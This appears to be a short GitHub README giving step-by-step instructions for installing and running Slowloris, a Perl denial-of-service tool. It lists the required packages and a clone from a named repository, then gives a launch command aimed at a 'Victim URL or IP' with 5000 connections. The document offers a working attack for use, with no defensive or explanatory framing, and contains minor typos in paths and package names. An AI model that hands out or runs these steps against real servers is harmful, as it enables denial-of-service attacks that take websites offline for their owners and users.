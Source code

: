 **How use Slowloris Attack**

Requirements:
- sudo apt-get update  
- sudo apt-get install perl
- sudo apt-get install libwww-mechanize-shell-perl
- sudo apt-get install perl-mechanize

Get Slowloris File:
```
1) Open Terminal
   $> cd /home
2) Download slowloris.pl
   # $home/ git clone https://github.com/Amarudin2019/slowloris.pl.git
3) Choose the directory where the file is downloaded
   # $home/ cd slowloris.pl
4) Run application
   # $home/slowlores.pl/ perl slowloris.pl -dns (Victim URL or IP) -options
   Example:
   # $home/slowlores.pl/ perl slowloris.pl -dns 192.168.100.19 -port 80 -timeout 20 -num 5000 -cache
```
Done
